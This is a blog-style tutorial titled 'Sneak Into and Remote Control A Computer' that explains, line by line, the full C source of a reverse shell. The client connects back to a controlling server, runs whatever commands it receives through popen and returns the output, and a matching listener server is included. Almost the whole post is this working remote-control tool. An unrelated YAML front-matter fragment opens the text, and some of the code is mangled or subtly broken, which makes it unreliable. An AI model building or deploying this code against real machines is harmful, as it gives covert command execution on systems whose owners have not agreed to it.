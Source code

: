 ```yaml
---
title: "Two Forms of Pre-rendering"
date: "2020-01-01"
---
```


Sneak Into and Remote Control A Computer (Reverse Shell Script) - Line-by-line Explanation
Hi, I’m Wilson! If you haven’t watched the video, please watch it first before reading this blog post!

Sneak Into and Remote Control A Computer (Reverse Shell Script)

```cpp
client.cpp
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define PORT (80)
#define BUFFER_SIZE (1024)
#define SEPARATOR ("<SePaRaToR>")
```

The first few lines are just including some necessary header files. Socket will be included in the <arpa/inet.h> file
I later pound-defined some constants.
I specified the port number to be 80.
The buffer size is really just the size of the buffer. It will be used to store data the client receives and store the command output after the client execute the command.
The reason why there is a separator is that every time I sent command output to the server, I’ll append this separator and then append the current working directory (you’ll see why I do this later).

```cpp
int main() {
  int client_fd;
  struct sockaddr_in server_addr;
  char buffer[BUFFER_SIZE];
  char cwd[BUFFER_SIZE];
  FILE *fp;

  client_fd = socket(AF_INET, SOCK_STREAM, 0);

  if (client_fd < 0) {
    perror("socket setup failed\n");
    return -1;
  }
```

I have my main function here.
The first variable, client_fd, is the file descriptor of the socket (it basically represents a socket).
I have the server address on the next line. It is a struct of sockaddr_in. Structures in C programming basically allow you to refer to multiple variables at the same time.
I now declare two char arrays for buffer and cwd (current working directory).
AF_INET means that we will be using IPv4. If we want to use IPv6, it will be AF_INET6 instead. AF stands for the address family.
SOCK_STREAM means that we will be using TCP (Transmission Control Protocol). If we want to use UDP (User Datagram Protocol), we will be using SOCK_DGRAM instead.
If the file descriptor (client_fd) is less than 0, I know that the socket setup failed.
server_addr.sin_family = AF_INET;
inet_pton(AF_INET, "127.0.0.1", &server_addr.sin_addr);
server_addr.sin_port = htons(PORT);
inet_pton(): this function converts the char array (”127.0.0.1”) into a network address in the address family passed in as the first argument (AF_INET) and copies the address to the third argument (server_addr.sin_addr). Keep in mind that the destination is written in network byte order. If you don’t know what network byte order is, it is a byte order people agree on for network transmission. The reason why people do this is that there are little-endian and big-endian systems. If a little-endian system is trying to send data to a big-endian system, it is likely that the data will be corrupted or unreadable by the big-endian system, since the byte order is backward.
htons(): this function converts the unsigned short integer, which is our port, into network byte order.
if (connect(client_fd, (struct sockaddr \*) &server_addr, sizeof(server_addr)) < 0) {
perror("connection failed\n");
return -1;
}
This is just connecting to the server using what we have so far
client_fd: client socket
server_addr: server address (remember this is a structure, it also contains our port number)
sizeof(server_addr): the size of server_addr
getcwd(cwd, BUFFER_SIZE);
if (send(client_fd, cwd, BUFFER_SIZE, 0) < 0) {
perror("send cwd failed");
return -1;
}
getcwd(): this function gets the current working directory
we then send the current working directory to the server
while (1) {
memset(buffer, 0, BUFFER_SIZE);
if (recv(client_fd, buffer, BUFFER_SIZE, 0) < 0) {
perror("recv failed\n");
return -1;
}
memset(): this function empty the buffer. We need to do this because the data we received last time will persist in the buffer char array
we now receive data from the server and store the data in the buffer
if (strncmp(buffer, "cd", 2) == 0) {
strcpy(cwd, &buffer[3]);
cwd[strlen(&buffer[2])] = '\0';
if (chdir(cwd)) {
perror("change directory failed");
char chdir_fail_mesg[] = "Change Directroy Failed\n";
strcpy(buffer, chdir_fail_mesg);
buffer[strlen(chdir_fail_mesg)] = '\0';
}
getcwd(cwd, BUFFER_SIZE);
strcat(buffer, "\n");
strcat(buffer, SEPARATOR);
strcat(buffer, cwd);
if (send(client_fd, buffer, BUFFER_SIZE, 0) < 0) {
perror("send failed");
return -1;
}
}
this if statement is used to check if the input data is a cd command. If it is the case, we want to change the directory and store the current directory back in cwd char array.
we then send the buffer back to the server with the separator and cwd at the end
the first two lines are simply just grabbing whatever that is after “cd ” and storing it in the cwd char array
I then try to change the current working directory using the chdir() function.
if this fails I’m going to store an error message in the buffer so that the server will be notified
next line I get the current working directory and store it in cwd
I now concatenate the char array with a new line character (”\n”), the separator, and the current working directory
In the end, I send this buffer to the server
else {
if (chdir(cwd)) {
perror("change directory failed");
return -1;
}
fp = popen(buffer, "r");
if (!fp) {
perror("peopen failed");
}
memset(buffer, 0, BUFFER_SIZE);

    while (true) {
      char line[BUFFER_SIZE];
      int status = fscanf(fp, "%[^\n]%*c", line);
      if (status != 1) {
        break;
      }
      strcat(buffer, line);
      strcat(buffer, "\n");
    }

so if the command does not start with cd (not a change directory command), we will be executing the command and sending the output back to the server
we first want to change the current working directory using what we have in the cwd variable
popen() allows me to execute commands. The “r” at the end means that I’m able to read the output of the command. We will store this to the file pointer (fp) we defined in the beginning
we now empty the buffer char array and use the while loop below to store the command output back in the buffer array
strcat(buffer, SEPARATOR);
strcat(buffer, cwd);

      printf("%s\n", buffer);
      if (send(client_fd, buffer, BUFFER_SIZE, 0) < 0) {
        perror("send failed");
        return -1;
      }
      pclose(fp);
    }

}
}
in the end, I’m going to append the separator, cwd, and send the buffer back to the server
server.cpp
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define BUFFER_SIZE (1024)
#define BACKLOG (3)
#define SEPARATOR ("<SePaRaToR>")
This part is almost the same as the client, but we pound-define BACKLOG. You’ll see why later
int main(int argc, char \*argv[]) {
int server_fd;
int client_fd;
struct sockaddr_in server_addr;
struct sockaddr_in client_addr;

char buffer[BUFFER_SIZE];
char cwd[BUFFER_SIZE];
char output[BUFFER_SIZE];

if (argc != 3) {
perror("please provide the right arguments\n");
return -1;
}

printf("[*] Listening on %s:%s...\n", argv[1], argv[2]);
We now have the main function. As you can see it accept two parameters. The first one, argc, is telling us how many strings are there when the code is executed. For example
./server 127.0.0.1 80 //in this case argc will be 3 (executable name, address, port)
argv will be the array that we can use to access these strings
so argv[0] will be "./server"
argv[1] will be "127.0.0.1"
argv[2] will be "80"
if argc is not 3, we tell the user that they entered the wrong amount of parameter
the buffer char array is used to store the data received from the client
cwd will be used to store the current working directory
we will be getting this from grabbing everything that is after the separator
output will be used to store the command output from the client
we will be getting this from grabbing everything that is before the separator
server_fd = socket(AF_INET, SOCK_STREAM, 0);
if (server_fd <= 0) {
perror("socket setup failed\n");
return -1;
}
we now create a socket for the server
explained AF_INET and SOCK_STREAM in the client section
server_addr.sin_family = AF_INET;
inet_pton(AF_INET, argv[1], &server_addr.sin_addr);
server_addr.sin_port = htons(atoi(argv[2]));
we will be setting up the address just like how we did in the client, but in this case, we will be using the value in argv.
remember argv[1] is the IP address
argv [2] is the port number, the atoi() function converts it from string to int
if (bind(server_fd, (struct sockaddr _) &server_addr, sizeof(server_addr)) < 0) {
perror("bind failed\n");
return -1;
}
we now bind the server socket with the address we just set up
if (listen(server_fd, BACKLOG) < 0) {
perror("listen failed\n");
return -1;
}
we now listen for connections
remember the BACKLOG we pound-defined as 3?
it means that we allow 3 connections but since our program doesn’t handle multiple connections at the same time, the other connections will be waiting in a line.
int client_addr_size = sizeof(client_addr);
client_fd = accept(server_fd, (struct sockaddr _) &client_addr,
(socklen_t _) &client_addr_size);
if (client_fd < 0) {
perror("accept failed\n");
return -1;
}
after we accept the connection, we will be storing the accept return value to our client socket (client_fd)
printf("[_] Connected to %s:%s\n", inet_ntoa(client_addr.sin_addr), argv[2]);

if (recv(client_fd, cwd, BUFFER_SIZE, 0) < 0) {
perror("recv cwd failed\n");
return -1;
}
we now print out the client's address
inet_ntoa() converts the network address in network byte order to string
we later receive the current working directory from the client
while (1) {
memset(buffer, 0, BUFFER_SIZE);
memset(output, 0, BUFFER_SIZE);

    printf("%s> ", cwd);
    scanf("%511[^\n]%*c", buffer);

    if (send(client_fd, buffer, BUFFER_SIZE, 0) < 0) {
      perror("send failed");
      return -1;
    }

we now have a while loop just like what we have in the client
the first two lines will be emptying the buffer and output char array
we then print out the current working directory and scan for the user input command and store it in the buffer char array
after that, we will send that command to the client
if (recv(client_fd, buffer, BUFFER_SIZE, 0) < 0) {
perror("recv failed\n");
return -1;
}

    char *separator = strstr(buffer, SEPARATOR);
    char *new_cwd = separator + strlen(SEPARATOR);

    strcpy(cwd, new_cwd);
    cwd[strlen(new_cwd) + 1] = '\0';

    memcpy(output, buffer, separator - buffer);
    printf("%s", output);

}

return 0;
}
when the client responds, we receive the output of the command and store it in the buffer char array
we get the char pointer to the separator using the strstr function
strstr() returns the char pointer where this passed in substring exist
In the next line, I did pointer arithmetic, which moves the pointer strlen(SEPARATOR) bytes forward to point to the beginning of the cwd
remember the data sent by the client is formatted like this
[command output][separator][cwd]
we now copy the cwd from the client to the cwd char array
after that, we grab everything before separator and put it in the output char array using the memcpy function
and then we print out the output
This is basically it! I know there is a lot going on, but hope you find this blog post helpful! :D
